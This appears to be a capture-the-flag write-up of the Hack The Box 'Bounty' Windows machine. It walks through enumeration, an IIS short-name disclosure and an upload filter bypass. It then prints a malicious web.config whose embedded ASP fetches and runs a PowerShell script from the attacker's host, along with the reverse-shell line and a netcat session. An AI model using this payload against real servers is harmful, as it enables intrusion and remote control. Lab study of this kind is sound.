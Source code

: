 Box: Windows
Level: Easy
Info: Bounty is an easy to medium difficulty machine, which features an interesting technique to bypass file uploader protections and achieve code execution. This machine also highlights the importance of keeping systems updated with the latest security patches.
### Index
1. Initial Nmap Enumeration
2. Initial request  findings
3. Tech Stack
4. Shortname files/folders/directories IIS Vulnerability with tilde character
5. Reverse Shell using web.config
6. 



##### Initial Nmap enumeration
```
$ nmap -T4 --min-rate=1000 -p- -sC -sV -Pn 10.10.10.93
PORT   STATE SERVICE    VERSION
80/tcp open  tcpwrapped
```

```
$ nmap -p80 -sC -sV bounty.htb
PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 7.5
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: Bounty
|_http-server-header: Microsoft-IIS/7.5
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

##### Initial Request Finding
```
HTTP/1.1 200 OK
Content-Type: text/html
Last-Modified: Thu, 31 May 2018 03:46:26 GMT
Accept-Ranges: bytes
ETag: "20ba8ef391f8d31:0"
Server: Microsoft-IIS/7.5
X-Powered-By: ASP.NET
Date: Fri, 09 Aug 2024 00:18:11 GMT
Connection: close
Content-Length: 630
```

##### Tech Stack
ASP.NET web application with a back IIS 7.5. Focus should be on file upload through the web as mentioned in the Box Info.

##### Web Application 

![](Pasted%20image%2020240808202358.png)

Gobuster Enum

```
$ gobuster dir -u http://bounty.htb/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x aspx,html -b 404 -t 1               
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://bounty.htb/
[+] Method:                  GET
[+] Threads:                 1
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              html,aspx
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/transfer.aspx        (Status: 200) [Size: 941]
```

#### Troubleshooting Accessing Web.Config

So while solving this box, I was stuck. You can see in the above gobuster result that I am only enumerating the file with the extension aspx and html. I was not enumerating directories. I should have. I perform the nmap scan using the following NSE script and got nothing.

```
$ sudo nmap -p80 -sV -sC -sS --script=http-iis-short-name-brute 10.10.10.93 
PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 7.5
|_http-server-header: Microsoft-IIS/7.5
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

Bit Weird. Now I dig up on HTB Forums and got a hint that I should look for IIS tilde character "~" vulnerability which is looking for a Short File Folder name disclosure.

---
#### Lesson Learned
When you deal with IIS, do check for the short file/folder name disclosure using [IIS Short Name Scanner](https://github.com/irsdl/IIS-ShortName-Scanner/tree/master/release) and under the release directory run the following command and identify the short names of directories and files. Following to that you can use more specific wordlists using Gobuster or Burp's Spider/Crawler to enumerate directories.

---

```
$ java -jar iis_shortname_scanner.jar 2 20 http://bounty.htb/
Scanning...
Testing request method: "OPTIONS" with magic part: "/~1/.rem" ...
Early result: the target is probably vulnerable.
Early result: identified letters in names > A,C,D,E,F,L,N,O,P,R,S,T,U,X
Early result: identified letters in extensions > A,C,P,S
Dir: ASPNET~1
Dir: UPLOAD~1
File: CSASPX~1.CS
File: TRANSF~1.ASP
[/] TRANSF~1.ASS
#IIS Short Name (8.3) Scanner version 2023.4 - scan initiated 2024/08/09 13:39:35
Target: http://bounty.htb/
|_ Result: Vulnerable!
|_ Used HTTP method: OPTIONS
|_ Suffix (magic part): /~1/.rem
|_ Extra information:
  |_ Number of sent requests: 571
  |_ Identified directories: 2
    |_ ASPNET~1
    |_ UPLOAD~1
  |_ Identified files: 2
    |_ CSASPX~1.CS
      |_ Actual extension = .CS
    |_ TRANSF~1.ASP
Finished in: 15 second(s)
```

Now I know that there is a directories with the name ASPNET~1 and UPLOAD~1. Let's run gobuster to enumerate directories starting with the word "UPLOAD".

```
$ gobuster dir -u http://bounty.htb/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt 
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://bounty.htb/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/UploadedFiles        (Status: 301) [Size: 155] [--> http://bounty.htb/UploadedFiles/]
/uploadedFiles        (Status: 301) [Size: 155] [--> http://bounty.htb/uploadedFiles/]
/uploadedfiles        (Status: 301) [Size: 155] [--> http://bounty.htb/uploadedfiles/]
Progress: 220560 / 220561 (100.00%)
===============================================================
Finished
```

We got 301 response for the directory "UploadedFiles".  Earlier we also notice that there's a transfer.aspx file present on the server when we were enumerating the aspx and html file extension. So now we have following two things.
1. A place where we can upload the file
2. Possible directory/path where the file is going to upload and we can access it via web browser. 

Here's the transfer.aspx look like.
![](Pasted%20image%2020240809134908.png)

I tried to upload a simple .aspx shell and I got invalid file type message. So now I need to figure out the valid file type.
![](Pasted%20image%2020240809135021.png)

Running the Brup Intruder gives me some good valid file types that I can upload.
![](Pasted%20image%2020240809135108.png)

Sort it by Content-Length. Content Length for valid file type 1331 and for invalid filetype 1336. So I got couple of options. Let's try .config file. I found an interesting [GitHub repo](https://github.com/d4t4s3c/OffensiveReverseShellCheatSheet/blob/master/web.config) to prepare a web.config file with aspx code underneath of the file that will execute the aspx code and get me the reverse shell. But before I dive into it, I need to look at the web.config file. Here's my web.config file.

```
<?xml version="1.0" encoding="UTF-8"?>
<configuration>
   <system.webServer>
      <handlers accessPolicy="Read, Script, Write">
         <add name="web_config" path="*.config" verb="*" modules="IsapiModule" scriptProcessor="%windir%\system32\inetsrv\asp.dll" resourceType="Unspecified" requireAccess="Write" preCondition="bitness64" />
      </handlers>
      <security>
         <requestFiltering>
            <fileExtensions>
               <remove fileExtension=".config" />
            </fileExtensions>
            <hiddenSegments>
               <remove segment="web.config" />
            </hiddenSegments>
         </requestFiltering>
      </security>
   </system.webServer>
   <appSettings>
</appSettings>
</configuration>
<%
Set obj = CreateObject("WScript.Shell")
obj.Exec("cmd /c powershell iex (New-Object Net.WebClient).DownloadString('http://10.10.16.5/shell.ps1')")
%>
```

Look at the line where it says "shell.ps1". The same GitHub Repo contains the Invoke-PowerShellTcp.ps1 which I download and rename as shell.ps1. I changed the last line of that ps1 file to my ip.

```
Invoke-PowerShellTcp -Reverse -IPAddress 10.10.16.5 -Port 443
```

So what is happening here? I will upload the web.config file through the transfer.aspx. The file will be accessible using the URL http://bounty.htb/uploadedFiles/web.config following to that the web.cofig file will try to download the shell1.ps from my server. So I need to start the python web server on my end. As soon as I open web.config, I will notice the GET request on my server. Target will try to download the shell.ps1 from my server and execute. Once the execution completes, I will have my reverse shell.

```
──(ringbuffer㉿kali)-[~/Downloads/Bounty.htb]
└─$ python -m http.server 80                                   
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.93 - - [09/Aug/2024 12:41:12] "GET /shell.ps1 HTTP/1.1" 200 -

```

10.10.10.93 is an IP address of Bounty.htb which perform the GET request on my python web server where the shell.ps1 is present. At this point, the netcat listener is running as well in the second tab.

```
└─$ nc -lvnp 443
listening on [any] 443 ...
connect to [10.10.16.5] from (UNKNOWN) [10.10.10.93] 49158
Windows PowerShell running as user BOUNTY$ on BOUNTY
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

PS C:\windows\system32\inetsrv>whoami
bounty\merlin
```



